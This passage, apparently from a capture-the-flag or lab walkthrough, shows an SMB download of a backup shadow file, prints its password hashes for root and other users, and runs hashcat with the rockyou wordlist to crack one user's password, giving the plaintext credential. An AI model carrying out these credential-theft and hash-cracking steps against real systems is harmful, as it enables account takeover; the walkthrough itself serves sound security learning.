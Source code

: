 ```bash
                19728000 blocks of size 1024. 16313488 blocks available
smb: \> get shadow.bak
getting file \shadow.bak of size 1173 as shadow.bak (381.8 KiloBytes/sec) (average 381.8 KiloBytes/sec)
smb: \> exit
                                                                                                                                             
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ cat shadow.bak 
root:$6$VTftENaZ$ggY84BSFETwhissv0N6mt2VaQN9k6/HzwwmTtVkDtTbCbqofFO8MVW.IcOKIzuI07m36uy9.565qelr/beHer.:18095:0:99999:7:::
daemon:*:18095:0:99999:7:::
bin:*:18095:0:99999:7:::
sys:*:18095:0:99999:7:::
sync:*:18095:0:99999:7:::
games:*:18095:0:99999:7:::
man:*:18095:0:99999:7:::
lp:*:18095:0:99999:7:::
mail:*:18095:0:99999:7:::
news:*:18095:0:99999:7:::
uucp:*:18095:0:99999:7:::
proxy:*:18095:0:99999:7:::
www-data:*:18095:0:99999:7:::
backup:*:18095:0:99999:7:::
list:*:18095:0:99999:7:::
irc:*:18095:0:99999:7:::
gnats:*:18095:0:99999:7:::
nobody:*:18095:0:99999:7:::
systemd-timesync:*:18095:0:99999:7:::
systemd-network:*:18095:0:99999:7:::
systemd-resolve:*:18095:0:99999:7:::
systemd-bus-proxy:*:18095:0:99999:7:::
_apt:*:18095:0:99999:7:::
Debian-exim:!:18095:0:99999:7:::
messagebus:*:18095:0:99999:7:::
sshd:*:18095:0:99999:7:::
aeolus:$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:18095:0:99999:7:::
cronus:$6$wOmUfiZO$WajhRWpZyuHbjAbtPDQnR3oVQeEKtZtYYElWomv9xZLOhz7ALkHUT2Wp6cFFg1uLCq49SYel5goXroJ0SxU3D/:18095:0:99999:7:::
mysql:!:18095:0:99999:7:::
Debian-snmp:!:18095:0:99999:7:::
librenms:!:18095::::::
```
Cool!!

### 5. Crack the hash
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ hashcat -a 0 -m 1800 shadow.hashes /usr/share/wordlists/rockyou.txt --quiet
$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:sergioteamo
^C
```
One hash cracks to give credentials `aeolus:sergioteamo`. Hashcat doesn't find the other one (to be more accurate, I give up and close it after 15 mins).
